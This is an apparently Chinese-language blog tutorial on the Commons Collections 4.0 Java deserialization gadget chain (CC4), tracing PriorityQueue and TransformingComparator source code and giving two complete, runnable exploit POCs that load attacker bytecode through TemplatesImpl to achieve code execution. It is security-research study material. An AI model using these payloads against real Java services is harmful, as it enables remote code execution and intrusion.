



## 0x01漏洞分析

CC4其实就是CommonsCollections4版本的反序列化漏洞的链子，而之前的CC1、CC3、CC6都是用的CommonsCollections <= 3.1.2的版本，我们这里就不过多介绍了

## 0x02影响版本&环境搭建

**CC：Commons-Collections 4.0**

**jdk版本：jdk8u65**

环境搭建的话，直接在之前的maven项目的pom.xml中添加版本就行

```xml
    <dependency>
      <groupId>org.apache.commons</groupId>
      <artifactId>commons-collections4</artifactId>
      <version>4.0</version>
    </dependency>
```

## 0x03链子分析

https://infernity.top/2024/04/17/JAVA%E5%8F%8D%E5%BA%8F%E5%88%97%E5%8C%96-CC4%E9%93%BE/

其实CC4说白了也算是另一个分支路线，调用tranform()执行代码，而CC4中是用TransformingComparator#compare() 调用

由于TransformingComparator类在commons-collections3没有实现序列化接口，而commons-collections4实现了，所以才有CC4链的存在。

首先我们看一下tranform()方法的用法，找到TransformingComparator#compare()方法

### TransformingComparator#compare()



```java
    public int compare(final I obj1, final I obj2) {
        final O value1 = this.transformer.transform(obj1);
        final O value2 = this.transformer.transform(obj2);
        return this.decorated.compare(value1, value2);
    }
```

按照常规思路我们得看看这里的变量可不可控

```java
    public TransformingComparator(final Transformer<? super I, ? extends O> transformer,
                                  final Comparator<O> decorated) {
        this.decorated = decorated;
        this.transformer = transformer;
    }
```

构造方法是公开属性的，属性是可控的，那我们看一下谁调用了compare()方法

### PriorityQueue#siftDownUsingComparator()

在PriorityQueue类里的siftDownUsingComparator方法调用了compare方法

```java
    private void siftDownUsingComparator(int k, E x) {
        int half = size >>> 1;
        while (k < half) {
            int child = (k << 1) + 1;
            Object c = queue[child];
            int right = child + 1;
            if (right < size &&
                comparator.compare((E) c, (E) queue[right]) > 0)
                c = queue[child = right];
            if (comparator.compare(x, (E) c) <= 0)
                break;
            queue[k] = c;
            k = child;
        }
        queue[k] = x;
    }
```

私有属性，**并且comparator可控**，从公开属性的构造方法中可以看出

```java
    public PriorityQueue(int initialCapacity,
                         Comparator<? super E> comparator) {
        // Note: This restriction of at least one is not actually needed,
        // but continues for 1.5 compatibility
        if (initialCapacity < 1)
            throw new IllegalArgumentException();
        this.queue = new Object[initialCapacity];
        this.comparator = comparator;
    }
```

看看有没有能调用他的，在本类的siftDown()方法中找到用法

### PriorityQueue#siftDown() 

```java
    private void siftDown(int k, E x) {
        if (comparator != null)
            siftDownUsingComparator(k, x);
        else
            siftDownComparable(k, x);
    }
```

也是私有属性，我们继续往前找

### PriorityQueue#heapify()

在本类的heapify()方法下有调用

```java
    private void heapify() {
        for (int i = (size >>> 1) - 1; i >= 0; i--)
            siftDown(i, (E) queue[i]);
    }
```

也是私有属性，继续往前摸，在本类的readObject()方法下找到

### PriorityQueue#readObject()

```java
    private void readObject(java.io.ObjectInputStream s)
        throws java.io.IOException, ClassNotFoundException {
        // Read in size, and any hidden stuff
        s.defaultReadObject();

        // Read in (and discard) array length
        s.readInt();

        queue = new Object[size];

        // Read in all elements.
        for (int i = 0; i < size; i++)
            queue[i] = s.readObject();

        // Elements are guaranteed to be in "proper order", but the
        // spec has never explained what that might be.
        heapify();
    }
```

所以我们的链子是这样的

## 最终的链子

```java
PriorityQueue#readObject()->
      PriorityQueue#heapify()->
        PriorityQueue#siftDown()->    
            PriorityQueue#siftDownUsingComparator()->
                    TransformingComparator#compare()->
    						
    					//CC3后半段
    					ChainedTransformer#transform()->
                        	InstantiateTransformer#transform()->
                            		TemplatesImpl#newTransformer()->
                                		defineClass()->newInstance()->
```

## 0x04EXP编写

在PriorityQueue类中是接入了序列化接口的，所以我们可以直接new一个对象，但是我们先看一下readObject()的逻辑

```java
    private void readObject(java.io.ObjectInputStream s)
        throws java.io.IOException, ClassNotFoundException {
        // Read in size, and any hidden stuff
        s.defaultReadObject();

        // Read in (and discard) array length
        s.readInt();

        queue = new Object[size];

        // Read in all elements.
        for (int i = 0; i < size; i++)
            queue[i] = s.readObject();

        // Elements are guaranteed to be in "proper order", but the
        // spec has never explained what that might be.
        heapify();
    }
```

如果需要到达heapify()的话，我们先结合CC3的后半段写个demo调试一下

```java
package POC.CC4;

import java.lang.reflect.Field;
import java.nio.file.Files;
import java.nio.file.Paths;
import java.util.PriorityQueue;

import com.sun.org.apache.xalan.internal.xsltc.trax.TemplatesImpl;
import com.sun.org.apache.xalan.internal.xsltc.trax.TrAXFilter;
import com.sun.org.apache.xalan.internal.xsltc.trax.TransformerFactoryImpl;
import org.apache.commons.collections4.Transformer;
import org.apache.commons.collections4.functors.ChainedTransformer;
import org.apache.commons.collections4.functors.ConstantTransformer;
import org.apache.commons.collections4.functors.InstantiateTransformer;
import org.apache.commons.collections4.comparators.TransformingComparator;

import javax.xml.transform.Templates;
import java.io.*;


public class CC4 {
    public static void main(String[] args) throws IOException, ClassNotFoundException, NoSuchFieldException, IllegalAccessException {
        TemplatesImpl templates = new TemplatesImpl();
        setFieldValue(templates,"_name","a");

        byte[] code = Files.readAllBytes(Paths.get("E:\\java\\JavaSec\\CC1\\target\\classes\\POC\\CC3\\URLClassLoader_test.class"));
        byte[][] codes = {code};
        setFieldValue(templates,"_bytecodes",codes);

        setFieldValue(templates,"_tfactory",new TransformerFactoryImpl());

        InstantiateTransformer instantiateTransformer = new InstantiateTransformer(new Class[]{Templates.class}, new Object[]{templates});

        Transformer[] transformers = new Transformer[] {
                new ConstantTransformer(TrAXFilter.class),
                instantiateTransformer
        };
        ChainedTransformer chainedTransformer = new ChainedTransformer(transformers);
        
        //CC4前半段
        TransformingComparator transformingComparator = new TransformingComparator(chainedTransformer);
        PriorityQueue priorityQueue = new PriorityQueue(transformingComparator);
        serialize(priorityQueue);
        unserialize("CC4.txt");
    }
    public static void setFieldValue(Object object, String field_name, Object field_value) throws NoSuchFieldException, IllegalAccessException{
        Class c = object.getClass();
        Field field = c.getDeclaredField(field_name);
        field.setAccessible(true);
        field.set(object, field_value);
    }
    //定义序列化操作
    public static void serialize(Object object) throws IOException {
        ObjectOutputStream oos = new ObjectOutputStream(new FileOutputStream("CC4.txt"));
        oos.writeObject(object);
        oos.close();
    }

    //定义反序列化操作
    public static void unserialize(String filename) throws IOException, ClassNotFoundException{
        ObjectInputStream ois = new ObjectInputStream(new FileInputStream(filename));
        ois.readObject();
    }
}
```

打断点调试一下

### heapify()中size赋值问题



但是这里并不能进入siftDown方法，因为这个方法中的size是为0的，没办法进入for循环语句，我们看一下这个for循环的内容

```java
for (int i = (size >>> 1) - 1; i >= 0; i--)
            siftDown(i, (E) queue[i]);
```

`int i = (size >>> 1) - 1`并且初始的i需要大于等于0才能开始循环，然后可以看到size是私有属性，我们尝试去进行赋值

#### 方法一：用反射去进行赋值

因为这里通过反推可以算出size最小值为2，那我们设置size为2

```java
PriorityQueue priorityQueue = new PriorityQueue(transformingComparator);
Class priorityqueue = priorityQueue.getClass();
Field size = priorityqueue.getDeclaredField("size");
size.setAccessible(true);
size.set(priorityQueue, 2);
```

修改之后的POC

## 最终的POC1

```java
package POC.CC4;

import java.lang.reflect.Field;
import java.nio.file.Files;
import java.nio.file.Paths;
import java.util.PriorityQueue;

import com.sun.org.apache.xalan.internal.xsltc.trax.TemplatesImpl;
import com.sun.org.apache.xalan.internal.xsltc.trax.TrAXFilter;
import com.sun.org.apache.xalan.internal.xsltc.trax.TransformerFactoryImpl;
import org.apache.commons.collections4.Transformer;
import org.apache.commons.collections4.functors.ChainedTransformer;
import org.apache.commons.collections4.functors.ConstantTransformer;
import org.apache.commons.collections4.functors.InstantiateTransformer;
import org.apache.commons.collections4.comparators.TransformingComparator;

import javax.xml.transform.Templates;
import java.io.*;


public class CC4 {
    public static void main(String[] args) throws IOException, ClassNotFoundException, NoSuchFieldException, IllegalAccessException {
        TemplatesImpl templates = new TemplatesImpl();
        setFieldValue(templates,"_name","a");

        byte[] code = Files.readAllBytes(Paths.get("E:\\java\\JavaSec\\CC1\\target\\classes\\POC\\CC3\\URLClassLoader_test.class"));
        byte[][] codes = {code};
        setFieldValue(templates,"_bytecodes",codes);

        setFieldValue(templates,"_tfactory",new TransformerFactoryImpl());

        InstantiateTransformer instantiateTransformer = new InstantiateTransformer(new Class[]{Templates.class}, new Object[]{templates});

        Transformer[] transformers = new Transformer[] {
                new ConstantTransformer(TrAXFilter.class),
                instantiateTransformer
        };
        ChainedTransformer chainedTransformer = new ChainedTransformer(transformers);
        
        //CC4前半段
        TransformingComparator transformingComparator = new TransformingComparator(chainedTransformer);
        PriorityQueue priorityQueue = new PriorityQueue(transformingComparator);
        
        Class priorityqueue = priorityQueue.getClass();
        Field size = priorityqueue.getDeclaredField("size");
        size.setAccessible(true);
        size.set(priorityQueue, 2);
        serialize(priorityQueue);
        unserialize("CC4.txt");
    }
    public static void setFieldValue(Object object, String field_name, Object field_value) throws NoSuchFieldException, IllegalAccessException{
        Class c = object.getClass();
        Field field = c.getDeclaredField(field_name);
        field.setAccessible(true);
        field.set(object, field_value);
    }
    //定义序列化操作
    public static void serialize(Object object) throws IOException {
        ObjectOutputStream oos = new ObjectOutputStream(new FileOutputStream("CC4.txt"));
        oos.writeObject(object);
        oos.close();
    }

    //定义反序列化操作
    public static void unserialize(String filename) throws IOException, ClassNotFoundException{
        ObjectInputStream ois = new ObjectInputStream(new FileInputStream(filename));
        ois.readObject();
    }
}

```

重新调试之后成功弹计算器



这里可以直接用自定义的赋值函数去赋值，我写的时候整忘了哈哈哈

#### 方法二：用add方法去赋值

从[infer师傅的博客文章](https://infernity.top/2024/04/17/JAVA%E5%8F%8D%E5%BA%8F%E5%88%97%E5%8C%96-CC4%E9%93%BE/#%E6%96%B9%E6%B3%95%E4%BA%8C%EF%BC%9A)中学到了一个新的方法，就是用该类自带的add方法去进行赋值

```java
    public boolean add(E e) {
        return offer(e);
    }
```

我们跟进一下offer方法

```java
    public boolean offer(E e) {
        if (e == null)
            throw new NullPointerException();
        modCount++;
        int i = size;
        if (i >= queue.length)
            grow(i + 1);
        size = i + 1;	//给size传值
        if (i == 0)
            queue[0] = e;
        else
            siftUp(i, e);
        return true;
    }
```

我们进入siftUp方法

```java
    private void siftUp(int k, E x) {
        if (comparator != null)
            siftUpUsingComparator(k, x);
        else
            siftUpComparable(k, x);
    }
```

发现siftUP和siftDown方法几乎是一模一样的，我们跟进siftUpUsingComparator方法看看呢

```java
    private void siftUpUsingComparator(int k, E x) {
        while (k > 0) {
            int parent = (k - 1) >>> 1;
            Object e = queue[parent];
            if (comparator.compare(x, (E) e) >= 0)
                break;
            queue[k] = e;
            k = parent;
        }
        queue[k] = x;
    }
```

跟之前的逻辑差不多

这里跟URLDNS链差不多，如果我们直接调用add方法，这里就会走完整条链子，但是并不会反序列化，所以我们需要先在前面把比如给TransformingComparator赋值一个没用的，然后add完了之后再改回chainedTransformer。

```java
TransformingComparator transformingComparator = new TransformingComparator(new ConstantTransformer(1));
```

add后反射修改回去即可

## 最终的POC2

```java
package POC.CC4;

import java.lang.reflect.Field;
import java.nio.file.Files;
import java.nio.file.Paths;
import java.util.PriorityQueue;
import javax.xml.transform.Templates;
import java.io.*;

import com.sun.org.apache.xalan.internal.xsltc.trax.TemplatesImpl;
import com.sun.org.apache.xalan.internal.xsltc.trax.TrAXFilter;
import com.sun.org.apache.xalan.internal.xsltc.trax.TransformerFactoryImpl;
import org.apache.commons.collections4.Transformer;
import org.apache.commons.collections4.functors.ChainedTransformer;
import org.apache.commons.collections4.functors.ConstantTransformer;
import org.apache.commons.collections4.functors.InstantiateTransformer;
import org.apache.commons.collections4.comparators.TransformingComparator;

public class CC4 {
    public static void main(String[] args) throws IOException, ClassNotFoundException, NoSuchFieldException, IllegalAccessException {
        TemplatesImpl templates = new TemplatesImpl();
        setFieldValue(templates,"_name","a");

        byte[] code = Files.readAllBytes(Paths.get("E:\\java\\JavaSec\\CC1\\target\\classes\\POC\\CC3\\URLClassLoader_test.class"));
        byte[][] codes = {code};
        setFieldValue(templates,"_bytecodes",codes);

        setFieldValue(templates,"_tfactory",new TransformerFactoryImpl());

        InstantiateTransformer instantiateTransformer = new InstantiateTransformer(new Class[]{Templates.class}, new Object[]{templates});

        Transformer[] transformers = new Transformer[] {
                new ConstantTransformer(TrAXFilter.class),
                instantiateTransformer
        };
        ChainedTransformer chainedTransformer = new ChainedTransformer(transformers);
        TransformingComparator transformingComparator = new TransformingComparator(new ConstantTransformer(1));
        PriorityQueue priorityQueue = new PriorityQueue(transformingComparator);
        //方法一：修改size值
//        Class priorityqueue = priorityQueue.getClass();
//        Field size = priorityqueue.getDeclaredField("size");
//        size.setAccessible(true);
//        size.set(priorityQueue, 2);

        //方法二：add方法触发链
        priorityQueue.add(1);
        priorityQueue.add(2);
        setFieldValue(transformingComparator,"transformer",chainedTransformer);

        serialize(priorityQueue);
        unserialize("CC4.txt");
    }
    public static void setFieldValue(Object object, String field_name, Object field_value) throws NoSuchFieldException, IllegalAccessException{
        Class c = object.getClass();
        Field field = c.getDeclaredField(field_name);
        field.setAccessible(true);
        field.set(object, field_value);
    }
    //定义序列化操作
    public static void serialize(Object object) throws IOException {
        ObjectOutputStream oos = new ObjectOutputStream(new FileOutputStream("CC4.txt"));
        oos.writeObject(object);
        oos.close();
    }

    //定义反序列化操作
    public static void unserialize(String filename) throws IOException, ClassNotFoundException{
        ObjectInputStream ois = new ObjectInputStream(new FileInputStream(filename));
        ois.readObject();
    }
}

```

end~
